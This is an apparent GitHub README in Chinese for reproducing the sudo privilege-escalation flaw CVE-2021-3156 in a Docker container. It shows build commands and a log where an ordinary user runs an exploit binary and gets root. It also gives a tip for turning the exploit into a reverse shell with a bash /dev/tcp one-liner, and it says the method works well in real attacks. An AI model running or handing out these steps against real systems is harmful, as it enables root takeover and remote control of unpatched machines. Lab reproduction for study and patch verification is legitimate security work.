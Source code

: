 # 1. cve-2021-3156

复现环境，利用方式为非交互式，在实战中更为有效

| name  | version         |
| ----- | --------------- |
| sudo  | 1.8.31-1ubuntu1 |
| glibc | 2.31-0ubuntu9.2 |

## 1.1. 复现

创建docker image并启动container

``` bash
docker build . -t cve-2021-3156
docker run -ti cve-2021-3156 /bin/bash
```

## 1.2. 验证

验证cve-2021-3156

``` bash
victim@8f54ce1812d8:~/CVE-2021-3156$ ll
total 44
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ./
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ../
-rw-r--r-- 1 victim victim   211 Feb 18 02:02 Makefile
-rwxr-xr-x 1 victim victim 17472 Feb 18 02:29 exploit*
-rw-r--r-- 1 victim victim  3225 Feb 18 02:11 exploit.c
drwxr-xr-x 2 victim victim  4096 Feb 18 02:29 libnss_x/
-rw-r--r-- 1 victim victim   607 Feb 18 02:02 shellcode.c
victim@8f54ce1812d8:~/CVE-2021-3156$ id
uid=1000(victim) gid=1000(victim) groups=1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$ ./exploit id
uid=0(root) gid=0(root) groups=0(root),1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$
```

结果图

![](./exploit.png)

## tips

关于反弹shell

``` bash
./exploit "/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"
```
